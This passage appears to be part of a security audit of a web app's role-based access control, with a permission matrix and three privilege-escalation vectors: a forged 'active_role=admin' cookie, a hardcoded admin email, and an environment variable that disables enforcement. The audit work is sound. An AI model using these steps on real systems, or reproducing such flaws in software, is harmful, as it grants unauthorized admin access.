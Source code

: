| View Own Invoices | ❌ | ✅ | ✅ | ✅ | ✅ | 🟡 Data leakage |
| Create Invoices | ❌ | ❌ | ✅ | ✅ | ✅ | 🟡 Amount validation |
| Process Payments | ❌ | ✅ | ❌ | ✅ | ✅ | 🔴 Webhook security |
| View All Invoices | ❌ | ❌ | ❌ | ✅ | ✅ | 🔴 Permission gaps |
| Refund Payments | ❌ | ❌ | ❌ | ❌ | ✅ | 🔴 No validation |
| **System Administration** |
| View System Logs | ❌ | ❌ | ❌ | ❌ | ✅ | 🔴 Multiple bypasses |
| Manage Webhooks | ❌ | ❌ | ❌ | ❌ | ✅ | 🔴 No signature verify |
| System Configuration | ❌ | ❌ | ❌ | ❌ | ✅ | 🔴 Critical exposure |
| Database Access | ❌ | ❌ | ❌ | ❌ | ✅ | 🔴 Service role abuse |
| Export Data | ❌ | ❌ | ❌ | ❌ | ✅ | 🔴 Data breach risk |

### 🚨 CRITICAL ATTACK VECTORS

#### Vector 1: Complete Admin Access via Cookie
```bash
# Step 1: Any user can execute in browser console
document.cookie = "active_role=admin";

# Step 2: Refresh page or navigate to admin routes
window.location.href = "/admin/dashboard";

# Result: Full admin access to entire system
```

#### Vector 2: Persistent Admin via Email Change
```bash
# Step 1: Change email via profile settings
PUT /api/user/profile
{
  "email": "luxsess2001@gmail.com"
}

# Step 2: Hardcoded check grants permanent admin
# Result: Cannot be revoked through normal role management
```

#### Vector 3: System-Wide Permission Bypass
```bash
# Step 1: Set environment variable (if accessible)
export RBAC_ENFORCEMENT=dry-run

# Step 2: All permission checks return success
# Result: Any user can perform any action
```
